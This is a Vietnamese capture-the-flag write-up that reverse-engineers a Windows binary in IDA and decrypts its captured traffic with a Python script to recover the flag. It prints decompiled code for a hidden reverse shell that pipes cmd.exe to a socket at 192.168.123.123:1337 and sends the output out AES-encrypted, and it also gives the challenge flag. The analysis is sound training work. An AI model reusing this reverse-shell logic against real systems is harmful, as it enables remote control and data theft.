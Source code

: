 # SECRET 
- Khi mở file binary bằng IDA và phân tích hàm `main`:
```C 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  HWND ConsoleWindow; // eax
  SOCKET v4; // eax
  struct WSAData WSAData; // [esp+10h] [ebp-198h] BYREF

  ConsoleWindow = GetConsoleWindow();
  ShowWindow(ConsoleWindow, 0);
  hMutex = CreateMutexW(0, 0, L"9_5_diem");
  if ( !hMutex || WSAStartup(0x202u, &WSAData) )
    return 1;
  *(_DWORD *)&name.sa_family = 0;
  *(_DWORD *)&name.sa_data[2] = 0;
  *(_DWORD *)&name.sa_data[6] = 0;
  *(_DWORD *)&name.sa_data[10] = 0;
  name.sa_family = 2;
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  v4 = socket(2, 1, 6);
  s = v4;
  if ( v4 == -1 )
  {
LABEL_4:
    WSACleanup();
    return 1;
  }
  if ( connect(v4, &name, 16) == -1 )
  {
    closesocket(s);
    goto LABEL_4;
  }
  sub_8E1983();
  ReleaseMutex(hMutex);
  return 0;
}
```
- Trước tiên chương trình tạo `MUTEX OBJECT` nên chúng ta có thể suy đoán rằng bài sẽ có chỗ sử dụng `shared resource` giữa các thread (tức là sẽ có thêm những thread mới được tạo ra)
- Tiếp đến chúng ta có thể thấy rằng chương trình đã kết nối socket đến địa chỉ `192.168.123.123` và  `PORT 1337` : 
```C 
  ..........
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  ............
```
- Như vậy đã có kết nối socket thì chắc chắn sẽ có data chứa flag được truyền đi nên chúng ta sẽ tiếp tục trace vào hàm `sub_8E1983` để xem tác giả đã sử dụng socket để gửi đi những gì :
```C
char sub_8E1983()
{
  struct _STARTUPINFOW StartupInfo; // [esp+10h] [ebp-78h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+58h] [ebp-30h] BYREF
  struct _SECURITY_ATTRIBUTES PipeAttributes; // [esp+68h] [ebp-20h] BYREF
  int CommandLine[4]; // [esp+74h] [ebp-14h] BYREF

  PipeAttributes.nLength = 12;
  PipeAttributes.bInheritHandle = 1;
  PipeAttributes.lpSecurityDescriptor = 0;
  if ( !CreatePipe(&hObject, &hWritePipe, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(hObject, 1u, 0) )
    return 0;
  if ( !CreatePipe(&hReadPipe, &dword_8F6330, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(dword_8F6330, 1u, 0) )
    return 0;
  CommandLine[0] = *(_DWORD *)L"cmd.exe";
  CommandLine[1] = *(_DWORD *)L"d.exe";
  CommandLine[2] = *(_DWORD *)L"exe";
  CommandLine[3] = *(_DWORD *)L"e";
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.dwFlags |= 0x101u;
  StartupInfo.hStdError = hWritePipe;
  StartupInfo.hStdOutput = hWritePipe;
  StartupInfo.hStdInput = hReadPipe;
  StartupInfo.cb = 68;
  if ( !CreateProcessW(0, (LPWSTR)CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation) )
    return 0;
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
  WaitForSingleObject(ProcessInformation.hProcess, 0xFFFFFFFF);
  CloseHandle(ProcessInformation.hProcess);
  CloseHandle(ProcessInformation.hThread);
  return 1;
}
```
- Ở hàm `sub_8E1983` tác giả đã tạo một `pipe` và sau đó tạo một `PROCESS` con để sử dụng `pipe` này (`CreateProcessW`) 
- Process con sẽ chạy commandline bật cmd.exe và chạy d.exe , exe, ....
- Mục tiêu cần trace cuối cùng ở đây là hai hàm `StartAddress` và `sub_8E18B3` :

```C 
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
```

## Trước tiên là function `StartAddress`: 
```C
int __stdcall StartAddress()
{
  void *reader; // ebx
  size_t v1; // ebx
  size_t v2; // esi
  int result; // eax
  const void *v4; // [esp-8h] [ebp-78h]
  DWORD *buf; // [esp+10h] [ebp-60h]
  void *i; // [esp+14h] [ebp-5Ch]
  _DWORD v7[10]; // [esp+18h] [ebp-58h] BYREF
  char v8[40]; // [esp+40h] [ebp-30h] BYREF
  DWORD NumberOfBytesRead; // [esp+68h] [ebp-8h] BYREF

  reader = sub_8E1BC5(0xFFFFu);
  for ( i = reader; ; reader = i )
  {
    memset(reader, 0, 0xFFFFu);
    result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
    v2 = v7[8] + 37;
    buf = (DWORD *)sub_8E1BC5(v7[8] + 37);
	..............
```
- Có rất nhiều hàm nên mình sẽ chỉ phân tích một số hàm quan trọng .
- Đầu tiên chương trình sẽ đọc `StdOut` của `pipe` vừa tạo lúc trước , hiểu đơn giản là màn hình console của process được tạo ra trước đó hiện cái gì thì chương trình sẽ đọc tất : 

```C 
	........
	result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
	.......
```
- Sau khi đọc xong, tất cả dữ liệu sẽ được đưa vào hàm `sub_8E14F5` để `encrypt` rồi coppy vào biến `v7`
- Tiếp theo biến buf sẽ nhận được những data cần gửi đi :
```C
	..........
	memset(buf, 0, v2);
    *buf = v7[0];
    buf[8] = v1;
    buf[1] = v7[1];
    v4 = (const void *)v7[9];
    buf[2] = v7[2];
    buf[3] = v7[3];
    buf[4] = v7[4];
    buf[5] = v7[5];
    buf[6] = v7[6];
    buf[7] = v7[7];
    memmove(buf + 9, v4, v1);
    if ( send(s, (const char *)buf, v1 + 36, 0) == -1 )
      return closesocket(s);
    j_j__free(buf);
    Sleep(0xAu);
  }
  return result;
}

```
### Phân tích hàm Encrypt `sub_8E14F5`: 

- Đầu vào của hàm `sub_8E14F5`  là `NumberOfBytesRead` ,`reader`, `v8`
   + `NumberOfBytesRead` : số byte
   + `reader` : số byte đã đọc được
   + `v8` : mảng rỗng 
```C
_DWORD *__usercall sub_8E14F5@<eax>(signed int number_of_byte@<edx>, const void *buf@<ecx>, _DWORD *space)
{
   .......
  i = 0;
  Time = getTime(0);
  srand(Time);
  do
  {
    *((_BYTE *)space + i + 16) = rand();
    *((_BYTE *)space + i++) = rand();
  }
  while ( i < 16 );
```
- Đoạn đầu của hàm sử dụng hàm `random` để tạo ra 32 byte đầu bất kì , sau khi trace vào các hàm bên dưới thì mình thấy có một vùng data chương trình sử dụng để trộn với `reader` và `36 byte đầu` kia và những byte đó hoàn toàn giống với `Rijndael S-box` ([S-box](https://en.wikipedia.org/wiki/Rijndael_S-box))
- Nên mình kết luận luôn đây là hàm Encrypt sử dụng `AES` với `Key` và `IV` sẽ là 36 byte random kia.
## Decrypt Data
- Đề bài còn cho chúng ta một file `pcap` để xem những data đã gửi đi nên chúng ta sẽ lấy chúng ra để decrypt 
- Key và IV sẽ là 36 byte đầu 
- Do lúc socket gửi đi , nó có gửi cả `KEY` và `IV` nên chúng ta có thể lấy được nó thông qua file `pcap`
- script mình hack được từ anh tác giả : 
```python 
from scapy.all import *
from Crypto.Cipher import AES 
from Crypto.Util.Padding import * 

pp = PcapNgReader("capture.pcapng")

for p in pp:
    if TCP in p and (p[TCP].dport == 1337 or p[TCP].sport == 1337):
        payload = raw(p[TCP].payload)
        if len(payload) < 36:
            continue
        key = payload[:16]
        iv = payload[16:32]
        size = int.from_bytes(payload[32:36], byteorder='little')
        cipher = AES.new(key, AES.MODE_CBC, iv)
        data = payload[36:36+size]
        data = cipher.decrypt(data)
        try:
            data = unpad(data,16)
        except:
            pass
        print(data.decode())
        # break
```

- FLAG : `KCSC{d0'N7_g1v3_y0u_up}`
